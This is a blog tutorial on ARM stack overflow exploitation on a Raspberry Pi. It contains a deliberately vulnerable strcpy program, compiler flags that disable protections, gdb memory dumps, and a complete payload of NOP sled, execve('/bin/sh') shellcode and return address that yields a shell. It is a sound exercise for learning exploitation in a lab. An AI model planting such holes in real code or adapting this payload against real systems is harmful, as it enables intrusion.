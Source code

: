 ```yaml
---
layout: single
title: "ARM Exploitation with Raspberry Pi: Basic Stack Overflow"
excerpt:  "Are you interested in ARM exploitation with a Raspberry Pi? In this tutorial, I'll cover the basics of stack overflow attacks on ARM architecture. You'll learn how to identify vulnerabilities and how to write exploits to take advantage of them. Get ready to dive into the exciting world of ARM exploitation!" 
seo_title:  "ARM Exploitation with Raspberry Pi: Basic Stack Overflow Tutorial"
seo_description:  "Discover the basics of ARM exploitation with a Raspberry Pi in this tutorial on stack overflow attacks. Learn how to identify vulnerabilities and write exploits to take advantage of them. Start exploring the fascinating world of ARM exploitation."
header:
  image: "https://live.staticflickr.com/65535/49799517708_b32ef5ca7f_h.jpg"
  teaser: "https://live.staticflickr.com/65535/49799517708_b32ef5ca7f_h.jpg"
categories:
  - Security
tags:
  - Exploitation
  - Tutorial
  - ARM
  - Buffer Overflow
  - Raspberry Pi
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


In this post, we will exploit a vulnerable `C` program using basic `Stack Overflow` attack. Before starting reading this post you should read this post first:
[]()

## Example `C` Code
We will use the following code that uses a vulnerable function **`strcpy()`** function that does not check the limit of the content to be copied. 

Therefore, we can overflow the whole buffer and exploit the program by putting our shellcode there and calling it to be executed.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Function to test overflow
void IShouldNeverBeCalled() {
    puts("I should never be called");
    exit(0);
}

// This is our vulnerable function
void vulnerable(char *arg) {
    char buff[100];
    // to print return address
    printf("%p\n",&buff[0]);  
    strcpy(buff, arg);
}

// Pass argument in the vulnerable function
int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```

## Compilation
Assuming you have already disabled the ASLR, let's compile the code now:
```bash
$ gcc -fno-stack-protector -z execstack overflow.c -o overflow
```
Here we have disabled the stack protection (`-fno-stack-protector`) and enabled execution (`-z execstack`) within the stack.

## Debugging with `gdb`
Now, let's debug the code using **`gdb`**:
```
$ gdb -q ./overflow
```

Now, if we disassemble the main function, we will see an example disassembled code like below one:
```
gef➤  disass main
Dump of assembler code for function main:
   0x000104e4 <+0>:		push	{r11, lr}
   0x000104e8 <+4>:		add	r11, sp, #4
   0x000104ec <+8>:		sub	sp, sp, #8
   0x000104f0 <+12>:	str	r0, [r11, #-8]
   0x000104f4 <+16>:	str	r1, [r11, #-12]
   0x000104f8 <+20>:	ldr	r3, [r11, #-12]
   0x000104fc <+24>:	add	r3, r3, #4
   0x00010500 <+28>:	ldr	r3, [r3]
   0x00010504 <+32>:	mov	r0, r3
   0x00010508 <+36>:	bl	0x104b8 <vulnerable>
   0x0001050c <+40>:	mov	r3, #0
   0x00010510 <+44>:	mov	r0, r3
   0x00010514 <+48>:	sub	sp, r11, #4
   0x00010518 <+52>:	pop	{r11, pc}
End of assembler dump.
```

Now, let's put a breakpoint at address `0x0001050c` and run the program:
```
gef➤  b *0x0001050c
Breakpoint 1 at 0x1050c
```

As the buffer size is 100, the return address will be after 104th character. Now, let's put 104 character in total to overflow the buffer.
Therefore, we find the following error:
```
gef➤  run $(python -c 'print "A"*100+"BBBB"')
Starting program: /home/pi/remote_attestation/vulnerability_test/vuln_testbed/code/test@Roy/buf $(python -c 'print "A"*100+"BBBB"')

Program received signal SIGSEGV, Segmentation fault.
```

Because, we will use a `NOP sled` first, we need to know any starting address that points back to the NOP sled of the buffer. NOP stands for `No Operation` and it can be any harmless instruction or random binary. Therefore, we can look into the addresses following the instruction provided below:
```
gef➤  x/100x $sp-200
0x7efff3d8:	0x7efff49c	0x76fde10c	0x76ff97c8	0x00000001
0x7efff3e8:	0x00000001	0x00000000	0x00000000	0x76e7d224
0x7efff3f8:	0x0001051c	0x00000000	0x00010374	0x00000000
0x7efff408:	0x00000000	0x76fe5320	0x7efff434	0x7efff77c
0x7efff418:	0x0001051c	0x00000000	0x00010374	0x00000000
0x7efff428:	0x7efff598	0x7efff77c	0x00000000	0x41414141
0x7efff438:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff448:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff458:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff468:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff478:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff488:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff498:	0x42424242	0x00010500	0x7efff604	0x00000002
0x7efff4a8:	0x00000000	0x76e8f678	0x76fb4000	0x7efff604
0x7efff4b8:	0x00000002	0x000104e4	0x76ffecf0	0x7efff550
0x7efff4c8:	0xed78f5ef	0xe56ff76b	0x0001051c	0x00000000
0x7efff4d8:	0x00010374	0x00000000	0x00000000	0x00000000
0x7efff4e8:	0x76fff000	0x00000000	0x00000000	0x00000000
0x7efff4f8:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff508:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff518:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff528:	0x00000000	0x00000000	0x00000001	0x00000001
0x7efff538:	0x00001000	0x76fd89f8	0x00000000	0x7efff604
0x7efff548:	0x76fffb18	0x76fff960	0xffffffff	0x76fff000
0x7efff558:	0x76e85024	0x76ff94b0	0x7efff598	0x00000000
``` 

Now, let's target the address `0x7efff448`. We will use this address as the return address so that after copying the contents to the buffer, the return address points back to the NOP sled.

Now, let's exploit the program with our NOP sled, shellcode, and the return address. The payload looks like as follows:

```
payload = NOP sled + shellcode + return address
```
where,
```
NOP sled = "\xe1\xa0\x10\x01" (MOV R1, R1)
shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"
return address = "\x48\xf4\xff\x7e"
```
Note that we will have to put the instructions and the address from the opposite order (Little Endian). Except, here the shellcode already is in that format.

Now, let's use the payload for exploitation:
```
gef➤  run $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x48\xf4\xff\x7e"')
Starting program: /home/pi/remote_attestation/vulnerability_test/vuln_testbed/code/test@Roy/buf $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x48\xf4\xff\x7e"')
process 6637 is executing new program: /bin/dash
$ pwd
/home/pi/remote_attestation/vulnerability_test/vuln_testbed/code/test@Roy
$ 
```
So, we see, we have received the expected shell after running the command.

Here, the complete string looks like as follows:
```
\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58AAAA\x48\xf4\xff\x7e
```

## Run in terminal
Now, let's exploit the program outside the debugger. 
```bash
pi@raspberry:~$ ./overflow $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x48\xf4\xff\x7e"')

$ 
```
One thing you should rember is the return address usually changes outside the debugger because `gdb` loads environment variable in a different way.

So, use this line in your program to print the start address of the buffer first, then use the address as little endian.
```C
// to print return address
 printf("%p\n",&buff[0]);  
```


You can also read my other posts related to `Raspberry Pi`:

* [Set Static IP Address in Linux/Raspbian OS](https://shantoroy.com/linux/set-static-hostname-linux-mac-windows-raspbian/)

* [How to Configure a Raspberry Pi as Gateways between two Private Local Area Network using Ethernet Interfaces](https://shantoroy.com/raspberry%20pi/how-to-configure-raspberry-pi-as-gateway/)

* [How to fix the Ubuntu Black Screen Issue in a Raspberry Pi after Installation](https://shantoroy.com/ubuntu/ubuntu-HDMI-black-screen-issue-in-raspberry-pi/)

* [Live Video Monitoring using a Raspberry Pi and any Webcam](https://shantoroy.com/raspberry%20pi/live-monitoring-using-raspberry-pi-and-any-webcam/)

* [Set Up Headless Kali Linux in a Raspberry Pi 4 without Monitor, Keyboard, and Mouse](https://shantoroy.com/security/install-kali-linux-in-raspberry-pi-4/)

* [ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)


* [ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing](https://shantoroy.com/security/avoid-segmentation-fault-return-from-shellcode/)

* [ARM Exploitation with Raspberry Pi: ARM Ret-to-Libc](https://shantoroy.com/security/ret-to-libc-arm-exploitation-raspberry-pi/)

* [Build a Balena Cloud using Raspberry Pi](https://shantoroy.com/raspberry%20pi/balenaOS-install-raspberry-pi-balenacloud/)

-   [How to Configure a Raspberry Pi as an OpenFlow Switch: Steps, Issues, and Solutions](https://shantoroy.com/openflow/how-to-configure-raspberry-pi-as-open-flow-switch/)
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjAzNjQ4MzEwOCw4MTg3ODM5NSw0NzM0NT
Y0MzFdfQ==
-->